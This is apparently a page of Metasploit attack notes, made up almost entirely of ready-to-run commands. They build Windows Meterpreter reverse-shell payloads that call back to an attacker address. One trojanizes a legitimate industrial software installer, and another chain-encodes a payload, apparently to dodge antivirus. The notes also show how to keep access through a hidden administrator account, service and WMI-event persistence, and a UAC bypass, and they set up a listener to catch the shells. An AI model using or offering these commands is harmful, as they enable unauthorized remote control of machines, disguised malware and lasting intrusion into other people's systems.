 ### Execute a command
execute -if systeminfo

### Scan for Vulns/0days
msfpescan - windows
msfmachscan - Mac
msfelfscan - unix 

##Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe -a x86 --platform windows -o installer.exe


### Payload inject into real file 
wget website/download.exe
msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 -o tmp.exe -k -x 'Smartline modbus.exe'
mv tmp.exe SmartLineModBus.exe 	


#### Double encoded payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -a x86 --platform windows -e x86/shikata_ga_nai -i 100 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 200 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 138 -f exe -o new_payload.exe

## Persistance

### New User
execute -f "net user /add assetmgtacct assetpassword "
execute -f "net localgroup administrators /add assetmgtacct"
execute -i -f "net user"
### services
use exploit/windows/local/persistence_service
	set session 1
	set lport 4445
	set lhost 10.10.75.1
	exploit/
### WMI Event Subscription (trigger on fail login for non-existing user)
use exploit/windows/local/bypassuac_injection
	set session 1
	run


exploit/windows/local/wmi_persistence
	set session 2
	set lhost 10.10.75.1
	set username_trigger josh
	set callback_interval 1000
	exploit 

use exploit/multi/handler
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.10.75.1
### Golden Ticket